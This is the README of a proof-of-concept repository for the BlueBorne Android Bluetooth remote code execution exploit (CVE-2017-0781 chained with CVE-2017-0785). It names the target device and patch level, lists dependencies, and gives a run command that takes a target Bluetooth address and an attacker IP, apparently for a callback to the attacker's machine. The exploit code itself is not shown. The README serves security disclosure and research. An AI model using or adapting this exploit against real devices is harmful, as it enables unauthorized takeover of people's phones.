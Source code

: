 BlueBorne Android Exploit PoC
=============================

This repository contains a PoC code of BlueBorne's Android RCE vulnerability (CVE-2017-0781).
It also uses the SDP Information leak vulnerability (CVE-2017-0785) to bypass ASLR.
It achieves code execution on a Google Pixel Android smartphone running version 7.1.2 with Security Patch Level July or August 2017.
This code can also be altered a bit in order to target other Android smartphones.

All code can be found under android dir.

For more details you may read the full technical white paper available here:

https://www.armis.com/blueborne/

In addition a detailed blog post on the exploitation of this vulnerability is available here:
https://www.armis.com/blueborne-on-android-exploiting-rce-over-the-air/


===============

Dependencies:

    pip2 packages: pybluez, pwn
    
    - sudo apt-get install libbluetooth-dev
    - sudo pip2 install pybluez pwn

To run:

    sudo python2 doit.py hci0 <target-bdaddr> <attacker-ip>

IP needs to be accessible from the victim (should be the IP of the machine that runs the exploit)


